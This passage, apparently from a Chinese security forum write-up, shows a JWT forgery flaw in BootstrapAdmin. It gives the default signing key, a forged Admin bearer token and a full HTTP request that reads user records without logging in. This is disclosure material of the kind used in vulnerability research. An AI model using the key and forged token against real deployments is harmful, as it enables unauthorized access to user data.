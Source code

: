 ### 漏洞定位

`BootstrapAdmin\src\mvc\admin\Bootstrap.DataAccess\Dict.cs`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-8071866098aa8bc0966b23777d2d4a6c0432fdef.png)

【前台】任意JWT伪造
-----------

### 漏洞利用

目前版本是不允许我们未授权访问该接口的（在旧版本是可以的），该接口用来查询当前用户情况。  
`http://localhost:50852/api/Users?search=&sort=RegisterTime&order=desc&offset=0&limit=20&name=&displayName=&_=1683423761467`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-bc5875d3c8dc18ad1cf5c3d251597a2844e18441.png)

默认的 SecurityKey 为 `BootstrapAdmin-V1.1`  
我们可以到`https://jwt.io/`伪造Cookie，填入SecurityKey并修改Data里面的 exp（过期时间）即可。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-f16da4dcb0996e539801c36da64bad2f0b027528.png)

```python
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6IkFkbWluIiwibmJmIjoxNjgzMzgzNTA1LCJleHAiOjE2OTMzODM1MDUsImlhdCI6MTY4MzM4MzUwNSwiaXNzIjoiQkEiLCJhdWQiOiJhcGkifQ.DvpSS-mW4nmKaTf-NFMQHgWO2XhAP5SFX-7Ec2uV3nQ
```

请求时携带这个请求头再次访问即可获取用户信息，此时我们没有登录任何账户。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-45e26d9430fbf83862e9fdb6731b53dc3208143b.png)

请求包：

```python
GET /api/Users?search=&sort=RegisterTime&order=desc&offset=0&limit=20&name=&displayName=&_=1683423761467 HTTP/1.1
Host: localhost:50852
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:50852/Admin/Users
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: 
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6IkFkbWluIiwibmJmIjoxNjgzMzgzNTA1LCJleHAiOjE2OTMzODM1MDUsImlhdCI6MTY4MzM4MzUwNSwiaXNzIjoiQkEiLCJhdWQiOiJhcGkifQ.DvpSS-mW4nmKaTf-NFMQHgWO2XhAP5SFX-7Ec2uV3nQ
Connection: close

```
